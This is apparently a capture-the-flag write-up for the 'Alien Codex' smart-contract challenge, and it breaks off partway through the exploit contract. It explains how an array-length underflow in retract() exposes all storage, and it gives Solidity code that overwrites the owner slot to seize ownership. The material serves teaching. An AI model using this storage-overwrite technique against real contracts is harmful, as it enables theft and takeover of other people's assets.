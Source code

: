 1. The `owner` variable from the `Ownable` contract is at slot 0
2. The `contact` boolean is at slot 0 as well (booleans only take 1 byte, so it shares the slot with `owner`)
3. The `codex` array's length is stored at slot 1
4. The elements of `codex` start at the storage slot given by `keccak256(1)`

### The Vulnerability

The vulnerability is in the `retract()` function:

```solidity
function retract() public contacted {
    codex.length--;
}
```

In Solidity 0.5.0, there's no overflow/underflow protection. If we call `retract()` on an empty array, the length will underflow from 0 to 2^256-1, giving us access to the entire storage space via array indices.

### The Exploit

Our exploit involves:

1. Calling `makeContact()` to set `contact` to true, allowing us to pass the `contacted` modifier
2. Calling `retract()` on an empty array to underflow the length to 2^256-1
3. Calculating the array index that maps to storage slot 0 (where the owner is stored)
4. Using `revise()` to overwrite the owner address at that index

```solidity
// Calculating the index for storage slot 0
// We need to find i where: keccak256(1) + i = 0 (mod 2^256)
// So i = 0 - keccak256(1) (mod 2^256)
uint256 arraySlot = 1;
uint256 arrayIndex = uint256(2**256 - 1) - uint256(keccak256(abi.encode(arraySlot))) + 1;

// Overwrite the owner address
codex.revise(arrayIndex, bytes32(uint256(uint160(msg.sender))));
```

### Implementation Details

The solution contract, `AlienCodexExploit`, implements the logic to claim ownership:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlienCodex {
    function owner() external view returns (address);
    function makeContact() external;
    function record(bytes32 _content) external;
    function retract() external;
    function revise(uint256 i, bytes32 _content) external;
}

contract AlienCodexExploit {
    address public alienCodex;
    address public owner;

    constructor(address _alienCodex) {
        alienCodex = _alienCodex;
        owner = msg.sender;
    }
    
    function exploit(address _newOwner) external {
        require(msg.sender == owner, "Not the owner");
```